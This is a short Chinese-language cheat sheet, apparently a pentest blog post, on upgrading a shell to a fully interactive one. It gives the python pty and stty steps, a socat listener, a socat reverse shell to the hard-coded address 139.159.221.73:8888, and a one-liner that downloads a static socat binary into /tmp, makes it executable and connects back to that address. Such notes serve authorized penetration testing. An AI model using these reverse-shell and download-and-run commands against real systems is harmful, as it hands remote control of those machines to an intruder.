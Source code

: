 ```yaml
---
title: 提升为完全交互式的shell
date: 2024-01-12 21:28:52
tags:
---
```

## 有python

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
```

## 无python(Socat)

Socat交互式：

监听
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
nc -lvvp 8888也可以，但是只能半交互式
```

反弹
```
socat TCP:139.159.221.73:8888 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

一键反弹（远程下载socat,要求能访问github,或者自行python开启http）
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:139.159.221.73:8888
```

